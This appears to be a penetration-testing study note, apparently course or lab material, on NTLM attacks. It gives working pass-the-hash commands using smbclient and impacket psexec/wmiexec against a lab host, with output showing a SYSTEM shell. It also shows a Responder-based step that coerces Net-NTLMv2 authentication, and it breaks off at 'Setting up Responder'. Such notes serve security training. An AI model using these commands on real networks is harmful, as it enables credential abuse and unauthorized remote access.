 ```powershell
```

### Passing NTLM

Pass-the-Hash (PtH) requires the remote computer to have an account with the same username and password. Since Vista, all Windows versions have _UAC remote restrictions_ enabled by default, meaning pass-the-hash will likely only work for the local _Administrator_ account.

To leverage pass-the-hash, you must use a tool that supports authentication with NTLM hashes. Some examples include:

SMB Enumeration/Management

* smbclient
* CrackMapExec

Command Execution

* impacket library tools
  * psexec.py
  * wmiexec.py

Using **smbclient** to PtH:\
`smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash <hash_here>`

Using **psexec.py** for PtH and get an interactive shell as SYSTEM. In the hash section, since we only use the NTLM hash, the LMHash can be replace with 32 zeroes. A command can be entered at the end, otherwise leaving it blank will default to **cmd.exe**:

```bash
kali@kali:~$ impacket-psexec -hashes <LMHash:NTHash>  Administrator@192.168.50.212

C:\Windows\system32> whoami
nt authority\system
```

Using **wmiexec.py** for the same reason as **psexec.py** will result in an interactive shell as the user:

<pre class="language-bash"><code class="lang-bash"><strong>kali@kali:~$ impacket-wmiexec-hashes &#x3C;LMHash:NTHash>  Administrator@192.168.50.212
</strong>
C:\> whoami
files02\administrator
</code></pre>

### Cracking Net-NTLMv2

_Net-NTLMv2 === NTLMv2_\
NTLMv2 < Kerberos in terms of security.

_**Responder**_ is great for beginning our abuse of NTLMv2's weaknesses.\
If we have Responder listening on our device, we can initiate the authentication via an exploited device (without admin perms) simply by running `ls \\our.listening.ip.here\share` via PowerShell.

Setting up Responder
